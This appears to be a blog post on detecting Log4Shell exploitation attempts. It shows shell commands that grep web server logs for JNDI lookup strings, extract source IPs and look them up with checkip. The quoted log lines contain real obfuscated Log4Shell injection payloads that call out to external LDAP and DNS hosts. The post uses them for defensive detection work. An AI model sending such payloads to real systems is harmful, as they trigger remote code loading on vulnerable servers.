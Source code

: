 During this year's Advent the [Log4Shell](https://en.wikipedia.org/wiki/Log4Shell) vulnerability was discovered. It's a vulnerability with high impact. This is because of three factors. It allows an attacker to run arbitrary code (downloaded from LDAP servers) on the victim's system. Log4j is a logging library used by lots of programs. It's easy to exploit. The way to fix this vulnerability is upgrade the log4j library to the latest version.

To find out if someone is trying to exploit this vulnerability in your system you can review your logs. For example:

```sh
$ sudo journalctl --since 2021-12-09 | grep -iE '\$\{jndi:'
Dec 12 05:34:35 cloud waf[638]: 165.22.201.45 - - [12/Dec/2021:05:34:35 +0000] "GET / HTTP/1.1" 444 0 "-" "${jndi:${lower:l}${lower:d}a${lower:p}://world80.log4j.bin${upper:a}ryedge.io:80/callback}"
Dec 13 00:51:28 cloud waf[638]: 157.245.108.40 - - [13/Dec/2021:00:51:28 +0000] "GET / HTTP/1.1" 444 0 "-" "${jndi:${lower:l}${lower:d}a${lower:p}://world443.log4j.bin${upper:a}ryedge.io:80/callback}"
Dec 13 05:01:39 cloud waf[638]: 45.83.64.19 - - [13/Dec/2021:05:01:39 +0000] "GET /$%7Bjndi:dns://45.83.64.1/securityscan-http80%7D HTTP/1.1" 444 0 "${jndi:dns://45.83.64.1/securityscan-http80}" "${jndi:dns://45.83.64.1/securityscan-http80}"
```

These are logs from NGINX web server. There is no Java running on this system but the Internet is being scanned en masse. The web server is returning 444 because it's configured like this:

```
# Just close connection if the server is accessed via IP address or via the
# wrong hostname. _ is just an invalid value which will never trigger on a real
# hostname.
server {
    listen 443 default_server;
    server_name _;
    return 444;
}
```

If you are curious who is making these requests you can pull out the IP addresses from the logs, for example:

```sh
$ sudo journalctl --since 2021-12-09 | grep -iE '\$\{jndi:' | \
perl -lne '/((?:\d{1,3}\.){3}\d{1,3})/ && print $1' | sort | uniq
157.245.108.40
165.22.201.45
45.83.64.19
```

To discover information about the IP addresses you might find [checkip](https://github.com/jreisinger/checkip) useful:

```sh
$ for ip in $(sudo journalctl --since 2021-12-09 | grep -iE '\$\{jndi:' | \
perl -lne '/((?:\d{1,3}\.){3}\d{1,3})/ && print $1' | sort | uniq)
do
echo "---[$ip]---"; checkip $ip 2> /dev/null
done
---[157.245.108.40]---
abuseipdb.com   domain: digitalocean.com, usage type: Data Center/Web Hosting/Transit
iptoasn.com     AS description: DIGITALOCEAN-ASN - DigitalOcean, LLC
maxmind.com     city: Bengaluru, country: India (IN)
ping            0% packet loss, sent 5, recv 5, avg round-trip 141 ms
shodan.io       OS: n/a, 1 open port: tcp/4646
urlscan.io      0 related URLs
virustotal.com  network: 157.245.0.0/16, SAN: knrao.in, cpanel.knrao.in, cpcalendars.knrao.in, cpcontacts.knrao.in, mail.knrao.in, webdisk.knrao.in, webmail.knrao.in, www.knrao.in
Malicious       38% 🤏
---[165.22.201.45]---
abuseipdb.com   domain: digitalocean.com, usage type: Data Center/Web Hosting/Transit
iptoasn.com     AS description: DIGITALOCEAN-ASN - DigitalOcean, LLC
maxmind.com     city: Amsterdam, country: Netherlands (NL)
ping            0% packet loss, sent 5, recv 5, avg round-trip 16 ms
shodan.io       OS: Ubuntu, 4 open ports: tcp/22 (OpenSSH, 8.2p1 Ubuntu-4ubuntu0.2), tcp/80 (Apache httpd, 2.4.51), tcp/443 (Apache httpd, 2.4.7), tcp/465 (Exim smtpd, 4.94.2)
urlscan.io      0 related URLs
virustotal.com  network: 165.22.0.0/16, SAN: *.adleon2jnbvsh.com, adleon2jnbvsh.com
Malicious       38% 🤏
---[45.83.64.49]---
abuseipdb.com   domain: n/a, usage type: n/a
iptoasn.com     AS description: ALPHASTRIKE-RESEARCH
maxmind.com     city: n/a, country: Germany (DE)
ping            0% packet loss, sent 5, recv 5, avg round-trip 16 ms
shodan.io       OS: n/a, 1 open port: tcp/179
urlscan.io      0 related URLs
virustotal.com  network: 45.83.64.0/22, SAN: n/a
Malicious       50% 🚫
```